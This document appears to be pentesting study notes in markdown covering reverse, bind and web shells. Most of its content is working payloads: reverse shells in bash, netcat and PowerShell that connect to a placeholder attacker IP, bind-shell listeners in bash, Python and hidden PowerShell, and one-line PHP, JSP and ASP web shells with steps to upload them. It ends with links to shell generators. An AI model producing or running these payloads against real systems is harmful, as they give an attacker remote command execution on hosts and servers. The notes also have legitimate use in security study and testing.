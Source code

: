  ![Banner](./Notes/images/Shell.jpg)

# 🔧 **Type of Shells**

## 1. 🔄 Reverse Shell

  In a reverse shell, the target machine connects back to the attacker’s machine, giving the attacker control.

- **Working:** Attacker sets up a listener; the victim initiates the connection.

- **Use:** Bypassing firewalls (since outgoing connections are often allowed).

- **Example flow:**
  
  The first step is to setup a listner (e.g. netcat listener) on a port of your choosing:

      `nc -lvnp <PORT> `

  Next step is choosing the shell according to the envirnment and services. We can use to get a reverse connection, for bash on Linux compromised hosts and Powershell on Windows compromised hosts:
  
  > Linux (bash):
   
       `bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<Port> 0>&1'`
  > Linux (bash):

      `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_ip> <port> >/tmp/f`
  
  > Windows (powershell):
  
      `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<attacker_ip>', <port>);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"`


## 2. 🔗 Bind Shell
  
  In a bind shell, the target machine opens a port and listens for incoming connections from the attacker.
  
- **Working:** The victim machine opens a port and listens; the attacker connects to it to gain a shell.
  
- **Use:** Simple to set up in unrestricted environments, but less useful behind firewalls or NAT, since incoming connections may be blocked.

- **Example flow:**

    First, the victim runs a bind shell command on their system. The shell listens on a port (e.g. 0-65535) and waits for an attacker to connect.

  > Linux (bash):

      `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -lvp <Port> > /tmp/f`
  
  > Linux (Python):

      `python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept(); while True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'`

  > Windows (PowerShell):

      `powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start(); $client = $listener.AcceptTcpClient(); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (pwd).Path + " "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}; $client.Close();`

    Once the victim sets the bind shell, attacker can connect like this:

       nc <victim_ip> <Port>
  
    If successful, this gives the attacker an interactive shell.
    


## 3. 🌐 Web Shell
  
  A web shell is a malicious script uploaded to a web server (usually PHP, ASP, JSP, etc.). It executes system commands sent through HTTP requests.

- **Working:** The attacker uploads a script (e.g., PHP, ASP) to the victim’s web server. This script executes system commands via a browser interface.

- **Use:** Common in web server exploitation, especially after finding a file upload or RCE vulnerability. Allows remote command execution via HTTP/S.


- **Example flow:**

  Writing the Web Shell:
    > PHP (most common):
    
      `<?php system($_REQUEST["cmd"]); ?>`
    
    > JSP:
    
      `<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>`
    
    > ASP:
    
      `<% eval request("cmd") %>`

  Uploading the Shell:
    If an upload feature is vulnerable:
        We can upload shell.php to /var/www/html/ or equivalent.

    If we already have RCE:

      `echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php`

    Accessing Web Shell:

      `http://<server_ip>:<port>/shell.php?cmd=id`



# Links for shell generation

> [Powershells cheat sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/powershell-cheatsheet/)

> [Reverse shells cheat sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#tools)

> [Bind shells cheat sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/#python)

> [Shell generator](https://www.revshells.com/)
